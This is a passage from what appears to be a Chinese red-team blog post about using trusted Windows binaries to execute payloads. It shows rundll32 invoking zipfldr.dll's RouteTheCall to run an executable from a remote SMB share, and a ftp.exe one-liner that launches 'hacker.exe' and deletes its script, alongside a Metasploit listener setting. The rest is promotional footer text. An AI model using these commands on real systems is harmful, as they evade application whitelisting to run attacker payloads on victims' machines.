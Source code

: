 ```
C:\Windows\System32\zipfldr.dll 

C:\Windows\SysWOW64\zipfldr.dll
```

通过共享来远程执行：

```
rundll32.exe zipfldr.dll,RouteTheCall \\192.168.75.131\share\Gamma.exe
```

### 2.10 白名单 Ftp.exe

Ftp.exe 是 Windows 本身自带的一个程序，属于微软 FTP 工具，提供基本的 FTP 访问。

在路径：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

在 msf 监听的时候需要设置参数：set AutoRunScript migrate -f

在命令行执行：

```
echo !C:\Users\Gmama\Desktop\hacker.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

后续再持续更上。。。。

红队星球不仅仅在于技术分享，也在于讨论日常遇到的技术难题，毕竟技术交流才是重中之重  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLH5xJlzhYZpTIRTCvyx9VdRg6v8ttMnttvlwl48hqvAKibyrkhQPjmgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLxqpf60CslyB5MUf79WT0FAWCYfvFbErACTAcIfBn0ZpoVgw646fmAg/640?wx_fmt=png)

欢迎各位大佬加入星球，一起学习进步！  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLkwCQxIyXick5u8XoKM9ZhwI5K7d5ykibmBGiclFpjibqU5AqXbjNV7Bxuw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtIZ5VYusLbEoY8iaTjibTWg6AKjAQiahf2fctN4PSdYm2O1Hibr56ia39iaJcxBoe04t4nlYyOmRvCr56Q/640?wx_fmt=gif)

**看完记得点赞，关注哟，爱您！**

**请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

关注此公众号，回复 "Gamma" 关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！

  

**在看你就赞赞我！**
